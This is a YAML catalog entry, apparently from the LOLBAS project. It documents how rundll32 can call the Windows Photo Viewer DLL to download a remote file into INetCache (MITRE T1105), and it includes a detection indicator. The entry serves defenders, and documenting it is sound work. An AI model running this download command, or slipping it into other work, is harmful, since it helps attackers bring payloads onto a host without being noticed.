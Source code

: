```yaml
---
Name: PhotoViewer.dll
Description: Windows Photo Viewer
Author: Avihay Eldad
Created: 2025-06-22
Commands:
  - Command: rundll32.exe "C:\Program Files\Windows Photo Viewer\PhotoViewer.dll",ImageView_Fullscreen {REMOTEURL}
    Description: Once executed, rundll32.exe will download the file at the specified URL to the user's INetCache folder using the Windows Photo Viewer DLL.
    Usecase: Download file from remote location.
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
    Tags:
      - Download: INetCache
Full_Path:
  - Path: C:\Program Files\Windows Photo Viewer\PhotoViewer.dll
  - Path: C:\Program Files (x86)\Windows Photo Viewer\PhotoViewer.dll
Detection:
  - IOC: Execution of rundll32.exe with 'ImageView_Fullscreen' and a remote URL (containing '://') as an argument
Acknowledgement:
  - Person: Avihay Eldad
    Handle: '@avihayeldad'
  - Person: Tommy Warren
---
```

